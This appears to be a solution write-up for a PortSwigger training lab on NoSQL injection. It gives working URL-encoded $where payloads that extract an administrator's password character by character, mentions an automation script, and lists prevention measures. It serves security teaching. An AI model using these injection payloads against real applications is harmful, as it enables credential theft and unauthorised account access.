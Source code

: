 NoSQL Injection: Extract Data Lab Solution
Lab Overview
Lab Link: PortSwigger NoSQL Injection Lab

This lab contains a NoSQL injection vulnerability in the product category filter. The application uses a NoSQL database and is vulnerable to operator injection. The goal is to extract the administrator's password from the database and log in to their account.

Vulnerability Analysis
The application constructs NoSQL queries like:

javascript
{"category":"Gifts"}
By injecting operators, we can modify the query to extract data:

javascript
{"category":"Gifts","$where":"this.name[0] == 'a'"}
Solution Approach
Manual Exploitation Steps
1. Confirm Vulnerability
Test with a basic always-true condition:

text
GET /filter?category=Gifts%22%20%7C%7C%20%221%22%3D%3D%221
(URL encoded: Gifts" || "1"=="1)

If products are returned, the application is vulnerable.

2. Extract Password Length
Use the $where operator to determine password length:

text
GET /filter?category=Gifts%22%2C%22%24where%22%3A%22this.password.length%20%3D%3D%2020%22%7D%00
(URL encoded: Gifts","$where":"this.password.length == 20"})

Adjust the length value until products are returned.

3. Extract Password Character by Character
For each character position (0-19), test all possible characters:

text
GET /filter?category=Gifts%22%2C%22%24where%22%3A%22this.password%5B0%5D%20%3D%3D%20%27a%27%22%7D%00
(URL encoded: Gifts","$where":"this.password[0] == 'a'"})

Continue for each position until the full password is recovered.

4. Login as Administrator
Use the extracted password at /login to access the administrator account.

Automated Solution
We provide a Python script that automates the extraction process.

Prerequisites
Python 3.x

requests library (pip install requests)

Usage
Download the script from the scripts folder

Run the script with the lab URL:

bash
python nosql_injection.py https://your-lab-id.web-security-academy.net
What the Script Does
Determines password length by testing different lengths

Extracts each character using blind injection

Automatically logs in as administrator

Confirms successful exploitation

Important: URL Encoding
URL encoding is crucial for successful exploitation. The script handles this automatically, but for manual testing:

Spaces become %20

Double quotes become %22

Special characters like $ become %24

Null byte becomes %00

Example without encoding:

text
Gifts","$where":"this.password.length == 20"}
Example with proper URL encoding:

text
Gifts%22%2C%22%24where%22%3A%22this.password.length%20%3D%3D%2020%22%7D%00
Prevention Measures
Use parameterized queries or prepared statements

Implement proper input validation and sanitization

Apply the principle of least privilege to database accounts

Use ORM/ODM libraries that handle query construction safely

References
PortSwigger NoSQL Injection

URL Encoding Reference

MongoDB Security Checklist

Script Folder
Download the automation script from the script folder in this repository to quickly solve the lab. The script handles all URL encoding and extraction logic automatically.

